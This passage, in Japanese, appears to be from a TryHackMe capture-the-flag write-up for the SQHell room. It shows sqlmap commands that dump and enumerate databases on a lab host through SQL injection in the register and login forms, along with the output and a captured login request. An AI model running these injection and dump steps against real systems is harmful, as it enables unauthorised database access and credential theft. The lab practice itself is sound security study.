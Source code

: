 admin パスワードとフラグ３ゲット。

```shell
sqlmap -r ./req-register.txt -p username -D sqhell_3 --dump-all

Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
+----+---------------------------------+----------+
| 1  | ひみつ | admin    |
+----+---------------------------------+----------+

Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG3:97A.............................} |
+----+---------------------------------------------+
```

## ログイン画面

```http
POST /login HTTP/1.1
Host: 10.10.76.124
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://10.10.76.124
Connection: keep-alive
Referer: http://10.10.76.124/login
Upgrade-Insecure-Requests: 1

username=thm&password=abc
```

sqhell_2 データベースの存在を確認。

```shell
sqlmap -r ./req-login.txt --dbs

available databases [2]:
[*] information_schema
[*] sqhell_2
```

users テーブルだけ。

```shell
sqlmap -r ./req-login.txt -D sqhell_2 --tables

Database: sqhell_2
[1 table]
+-------+
| users |
+-------+
```
